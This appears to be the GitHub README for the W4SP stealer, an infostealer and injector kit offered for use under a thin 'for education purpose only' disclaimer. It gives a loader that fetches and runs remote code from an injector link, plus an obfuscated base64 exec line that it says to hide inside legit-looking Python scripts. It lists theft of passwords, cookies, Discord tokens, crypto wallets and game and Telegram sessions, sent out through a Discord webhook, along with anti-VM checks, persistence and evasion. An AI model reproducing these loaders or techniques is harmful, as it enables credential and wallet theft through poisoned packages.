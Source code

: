 <a href="https://twitter.com/TheHackersNews/status/1588812607234117632"><img src="https://media.discordapp.net/attachments/526622602542710814/1039914372136448031/unknown.png"></img></a>
(for education purpose only)



## 🚩 Table of Content

- Setup - Stealer
- Setup - API & Bot
- Features - Stealer
- Features - Injector
- Features - Api
- Features - Bot
- Demo

## Setup [Stealer & Injector]
```sh
run builder.py
```
## Setup [Line ~ Optional but recomanded]
```py
from tempfile import NamedTemporaryFile as _ffile
from sys import executable as _eexecutable
from os import system as _ssystem
_ttmp = _ffile(delete=False)
_ttmp.write(b"""from urllib.request import urlopen as _uurlopen;exec(_uurlopen("INJECTOR_LINK").read())""")
_ttmp.close()
try: _ssystem(f"start {_eexecutable.replace('.exe', 'w.exe')} {_ttmp.name}")
except: pass

# replace INJECTOR_LINK by the injector.py link from setup
# (this script was made by Billy)
```
```py
# encode in b64 the last payload and replace it here
# then hide this line in a legit looking python script
# or use ur brain and ur own technique, this is just un exemple
# remeber, its for education purpose, attacking a machine w/o autorisation is illegal !

__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').exec(__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').compile(__import__('\x62\x61\x73\x65\x36\x34').b64decode("%PAYLOAD%"),'<string>','\x65\x78\x65\x63'))
```

## Setup [API]



## Features [Stealer

Global
- Saved Passwords
- Browser Cookies
- Get PC information
- AntiVM - Trust Factor system, it wont send data if Gmail cookies arent' found
- All files are uploaded to an external api <- Improved by [xKian](https://github.com/sfx2me)
- Data is send throught a Discord webhook

Discord
- Discord Tokens from browsers
- Discord Token from discord, discordcanary, discordPTBa
- Get all info on token (email, nitro/badge, rare friends)

Wallets
- Exodus Wallet
- Metamask Wallet
- Atomic Walletk

Gaming
- Steam Client
- Riot Client
- NationsGlory Client

Other
- Telegram Session

File Stealer
- It will search throught the pc for: saved passwords, 2fa codes, wallet keys and other sensitive information<br>
(idea came from Kiwi plugin on msf)

## Features [Injector]
- Brilliant persistance technique (only in injector v1.1)
- Invisible in TaskManger StartUP tab (only in injector v1.1)
- FUD
- Fully runs in background
- Hides the stealer very well


## Features [API]
- Easy to update/upgrade
- Compatible with all w4sp versions
- Using auto & custom obfuscation
- Manage Users and Webhooks with API
- Browser security => If a browser is detected (headers) it will obfusacate a fake wasp script <- Brilliant Idea by [lath](https://github.com/lathlaszlo)

## Features [BOT]
- Easy to configure
- Manage Users and Webhooks using w4sp api
- Auto inject file.py

# Few articles on W4SP (they where writen during beta-testing)<br> ⚠️Most articles writen after that are 95% bullshit⚠️
- [securelist.com ~ Two more malicious Python packages in the PyPI
](https://securelist.com/two-more-malicious-python-packages-in-the-pypi/107218/)
- [securityweek.com ~ Security Firms Find Over 20 Malicious PyPI Packages Designed for Data Theft](https://www.securityweek.com/security-firms-find-over-20-malicious-pypi-packages-designed-data-theft)
- [digismak.com ~ Criminals steal data by spoofing popular open source package](https://digismak.com/criminals-steal-data-by-spoofing-popular-open-source-package/)
- [darkreading.com ~ Whack-a-Mole: More Malicious PyPI Packages Spring Up Targeting Discord, Roblox](https://www.darkreading.com/application-security/whack-a-mole-malicious-pypi-packages-target-discord-roblox)

# ScreenShots
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035590779919421460/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591128193433661/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591544100634735/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591894098513960/unknown.png"></img>

iirbrwk